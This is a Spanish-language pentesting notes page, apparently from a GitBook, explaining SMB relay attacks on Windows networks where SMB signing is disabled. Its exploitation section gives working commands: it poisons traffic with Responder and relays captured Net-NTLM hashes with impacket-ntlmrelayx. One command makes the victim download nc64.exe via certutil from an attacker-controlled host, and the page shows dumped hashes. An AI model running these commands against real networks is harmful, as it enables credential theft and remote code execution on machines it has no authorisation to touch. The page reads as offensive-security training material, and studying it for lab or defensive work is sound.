 ```yaml
---
description: SMB Signing -> False
---
```


# SMB Relay

### Descripción&#x20;

Este ataque consiste en capturar los hashes Net-NTLM de un cliente, reenviarlos a un segundo cliente, permitiendonos actuar como si fuesemos el primer cliente. Debido a que el primer cliente es un usuario administrador, podremos ejecutar comandos o ganar una shell en el segundo cliente.

Para poder hacer el relaying el cliente del que capturemos los hashes Net-NTLM deberá pertenecer al grupo local de administradores sobre el cual vamos a querer ejecutar comandos y que el SMB signing esté desactivado.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**/usr/share/responder/Responder.Conf:**

![](<../../../.gitbook/assets/image (27).png>)



### Explotación

Envenenar el tráfico con responder:

```bash
python Responder.py -I eth0 -dw 
```

Empezar el ataque con ntlmrelayx

<pre><code># con elbinario de impacket que viene en kali
impacket-ntlmrelayx -t (ip-target) -smb2support # el -smb2support es para versiones posteriores a WindowsServer 2008
<strong>impacket-ntlmrelayx -t 192.168.0.110 -smb2support
</strong>impacket-ntlmrelayx -tf targets.txt -smb2support

# ejecutar comandos
impacket-ntlmrelayx -t 192.168.0.110 -c "certutil.exe -f -urlcache -split http://192.168.0.108:9090/nc64.exe C:\\Windows\\Temp\\nc.exe" -smb2support

</code></pre>

Cliente 1 con privilegios de administrador en el cliente 2:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Hashes dumpeados con ntlmrelayx

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

